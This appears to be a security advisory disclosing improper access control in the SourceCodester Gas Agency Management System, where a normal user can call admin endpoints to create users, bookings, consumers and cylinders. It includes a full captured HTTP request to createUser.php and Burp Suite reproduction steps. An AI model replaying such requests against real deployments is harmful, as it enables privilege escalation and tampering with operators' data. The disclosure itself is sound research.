


# Improper Access Control – allows unauthorized creation of users, bookings, consumers, and cylinders in SourceCodester Gas Agency Management System

------

**Product Name:** The SourceCodester Gas Agency Management System
**Vendor:** SourceCodester
**Product Page:**  https://www.sourcecodester.com/download-code?nid=15586&title=Gas+Agency+Management+System+Project+in+PHP+Free+Download+with+Free+Source+Code+

------

## Description

The **SourceCodester Gas Agency Management System** is vulnerable to **Improper Access Control**, allowing a **normal authenticated user** to perform **administrative actions** such as creating new **users, bookings, consumers, and cylinders** by directly invoking privileged backend endpoints.

The application relies solely on **client-side UI restrictions** to limit access to administrative functionality. However, **no server-side authorization checks** are implemented to verify the user’s role before processing sensitive requests, resulting in a privilege escalation vulnerability.

------

## Affected Functionality

User Account → Sends administrative request (create user / booking / consumer / cylinder) → Action executed successfully

------

## Vulnerable Request

```
POST /gas/gasmark/php_action/createUser.php HTTP/1.1
Host: 192.168.136.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:147.0) Gecko/20100101 Firefox/147.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----geckoformboundary2333c396209809be8d09a23d7f88ed91
Content-Length: 640
Origin: http://192.168.136.1:8080
Connection: keep-alive
Referer: http://192.168.136.1:8080/gas/gasmark/add-user.php
Cookie: PHPSESSID=93ig25tg86m23hgshdk4aupnjb
Upgrade-Insecure-Requests: 1
Priority: u=0, i

------geckoformboundary2333c396209809be8d09a23d7f88ed91
Content-Disposition: form-data; name="currnt_date"


------geckoformboundary2333c396209809be8d09a23d7f88ed91
Content-Disposition: form-data; name="userName"

newuseradded
------geckoformboundary2333c396209809be8d09a23d7f88ed91
Content-Disposition: form-data; name="upassword"

123
------geckoformboundary2333c396209809be8d09a23d7f88ed91
Content-Disposition: form-data; name="uemail"

newuser@user.com
------geckoformboundary2333c396209809be8d09a23d7f88ed91
Content-Disposition: form-data; name="create"


------geckoformboundary2333c396209809be8d09a23d7f88ed91--

```

------

## Steps to Reproduce

1. Log in as a **normal user**

2. Capture any authenticated request using **Burp Suite**

3. Copy the session cookie (`PHPSESSID`)

4. Send the crafted request to the privileged backend endpoint

5. Submit the request

6. Observe that a **new user** is created successfully

   

   

7. Using similar requests, the attacker can also create **bookings, consumers, and cylinders**

------

## Impact

- Unauthorized creation of users
- Unauthorized creation of bookings
- Unauthorized addition of consumers
- Unauthorized addition of cylinders
- Complete compromise of system integrity
- High risk of data manipulation and abuse

------

## Discovered By

**Mo Asim** (also known as **Asim Qazi**)
 Student | Security Researcher

- **GitHub:** https://github.com/Asim-Qazi
- **LinkedIn:** https://www.linkedin.com/in/masimqazi
